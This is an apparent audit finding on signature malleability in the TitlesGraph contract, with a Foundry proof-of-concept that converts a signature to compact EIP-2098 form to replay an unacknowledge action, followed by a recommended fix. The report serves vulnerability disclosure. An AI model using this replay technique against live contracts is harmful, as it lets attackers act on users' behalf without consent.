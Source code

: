 Sleepy Cider Cormorant

high

# Lack of protection from signature malleability

## Summary

The `TitlesGraph` contract is incorrectly protected from signature replay-attack via signature malleability because it uses signature as the key in `isUsed` mapping and `SignatureCheckerLib` library from `solady` repository.

## Vulnerability Detail

The `TitlesGraph` contract uses a mapping `isUsed` to protect from replay attack on functions that accept signature parameter, which are: `acknowledgeEdge(bytes32 edgeId_, bytes calldata data_, bytes calldata signature_)` and `unacknowledgeEdge(bytes32 edgeId_, bytes calldata data_, bytes calldata signature_)`. 

The problem arises from two different issues, that must occur simultaneously.

First issue is that the `signature` is used as the mapping key (instead of the `digest`, potentially with some nonce) what could make it vulnerable to replay attack due to signature malleability.

That would however not be possible without the second issue, which is using the `SignatureCheckerLib` library from `solady` repository without detecting signature malleability. The library does not check for signature malleability itself, as stated in docs:
https://github.com/Vectorized/solady/blob/91d5f64b39a4d20a3ce1b5e985103b8ea4dc1cfc/src/utils/SignatureCheckerLib.sol#L19-L23

As the result, anyone can take any signature from past transactions of a particular user, generate it's different format (without any external information) and execute the opposite operation on behalf of the user. 

# PoC

Notice I had to add `solidity-bytes-utils` package and I made the `_hashTypedData` function public to make it easier to get the correct digest.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {Test, console} from "forge-std/Test.sol";

import {IEdgeManager} from "src/interfaces/IEdgeManager.sol";
import {TitlesGraph} from "src/graph/TitlesGraph.sol";
import {NodeType, Edge, Node, Target, Unauthorized} from "src/shared/Common.sol";

import {BytesLib} from "lib/solidity-bytes-utils/contracts/BytesLib.sol";

contract TitlesGraphTest is Test {
    using BytesLib for bytes;

    TitlesGraph public titlesGraph;

    function setUp() public {
        titlesGraph = new TitlesGraph(address(this), address(this));
    }

    function test_acknowledgeEdge_withMalleableSignature() public {
        
        (address alice, uint256 alicePk) = makeAddrAndKey("alice");
        (address bob, uint256 bobPk) = makeAddrAndKey("bob");

        Edge memory edge = Edge({
            from: Node({
                nodeType: NodeType.COLLECTION_ERC1155,
                entity: Target({target: address(alice), chainId: block.chainid}),
                creator: Target({target: address(2), chainId: block.chainid}),
                data: ""
            }),
            to: Node({
                nodeType: NodeType.TOKEN_ERC1155,
                entity: Target({target: address(3), chainId: block.chainid}),
                creator: Target({target: address(bob), chainId: block.chainid}),
                data: abi.encode(42)
            }),
            acknowledged: true,
            data: ""
        });

        // Create the edge
        vm.prank(alice);
        titlesGraph.createEdge(edge.from, edge.to, "");
        bytes32 edgeId = titlesGraph.getEdgeId(edge);

        // CAUTION: I made _hashTypedData public to easily get the digest.
        bytes32 digest = titlesGraph._hashTypedData(
            keccak256(
                abi.encode(
                    keccak256("Ack(bytes32 edgeId,bytes data)"), 
                    edgeId, 
                    new bytes(0)
                )
            )
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(bobPk, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        // A valid signature will acknowledge the edge and emit an event
        vm.expectEmit(true, true, true, true);
        emit IEdgeManager.EdgeAcknowledged(edge, address(this), "");
        titlesGraph.acknowledgeEdge(edgeId, new bytes(0), signature);

        // Unacknowledging with the same signature will revert
        vm.expectRevert(Unauthorized.selector);
        titlesGraph.unacknowledgeEdge(edgeId, new bytes(0), signature);

        bytes memory signature2 = to2098Format(signature);
        // Unacknowledging with modified signature will work
        edge.acknowledged = false;
        vm.expectEmit(true, true, true, true);
        emit IEdgeManager.EdgeUnacknowledged(edge, address(this), "");
        titlesGraph.unacknowledgeEdge(edgeId, new bytes(0), signature2);

    }

    /**
     * @dev Error that occurs when the signature length is invalid.
     * @param emitter The contract that emits the error.
     */
    error InvalidSignatureLength(address emitter);

    /**
     * @dev Error that occurs when the signature value `s` is invalid.
     * @param emitter The contract that emits the error.
     */
    error InvalidSignatureSValue(address emitter);

    function to2098Format(bytes memory signature) internal view returns (bytes memory) {
        if (signature.length != 65) revert InvalidSignatureLength(address(this));
        if (uint8(signature[32]) >> 7 == 1) revert InvalidSignatureSValue(address(this));
        bytes memory short = signature.slice(0, 64);
        uint8 parityBit = uint8(short[32]) | ((uint8(signature[64]) % 27) << 7);
        short[32] = bytes1(parityBit);
        return short;
    }
}
```

## Impact

Anyone is able to acknowledge or unacknowledge the edge being acknowledged by the creator of the `to` node (using signature).

## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/graph/TitlesGraph.sol#L40-L50

## Tool used

Manual Review

## Recommendation

Use digest (potentially with additional nonce if the same function parameters can be reused) instead of the signature as the mapping key.

Note that the additional nonce, if you plan to use it, must be included in the signed digest.